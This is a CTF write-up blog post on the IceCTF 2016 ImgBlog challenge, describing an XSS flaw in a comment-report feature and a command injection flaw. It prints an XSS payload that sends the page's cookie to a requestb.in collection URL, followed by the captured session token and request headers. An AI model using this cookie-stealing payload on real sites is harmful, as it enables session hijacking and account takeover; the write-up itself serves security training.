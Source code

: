 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/08/27/icectf-2016-stage4/
date: "2016-08-27T01:22:17+09:00"
tags: [ "ctf", "writeup", "icectf" ]
"target_url": [ "https://icec.tf/" ]
---
```


# IceCTF 2016: stage4

## ImgBlog

<small>
[@tukejonny](https://twitter.com/tukejonny) did the OS command injection.
</small>

The service has $2$ vulnerabilities.
The first one is XSS, the second one is OS command injection.

After logging in, the `Report Comment` feature (and the individual comment page) has XSS.
Using <http://requestb.in>,

``` html
<script> location.href = "http://requestb.in/xxxxxxxx?" + document.cookie; </script>
```

and the result was:

```
GET /ssf1giss?session=eyJ1c2VyIjoxfQ.Cp3EEg.pisHXEaPJs2TdTCIUI2d5EbhKXE

QUERYSTRING
session: eyJ1c2VyIjoxfQ.Cp3EEg.pisHXEaPJs2TdTCIUI2d5EbhKXE

HEADERS
Via: 1.1 vegur
X-Request-Id: 4097be85-7f30-4431-8a98-6723d4af6cc8
Accept-Encoding: gzip
Accept-Language: en,*
Referer: http://127.0.0.1:5300/comment/99e0f33a39bad91b54e1e3c9ff59b4
Cf-Visitor: {"scheme":"http"}
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Host: requestb.in
Total-Route-Time: 0
Connect-Time: 0
Cf-Ipcountry: US
Cf-Ray: 2d6e33b9459d2567-ORD
Cf-Connecting-Ip: 104.154.248.13
Connection: close
```
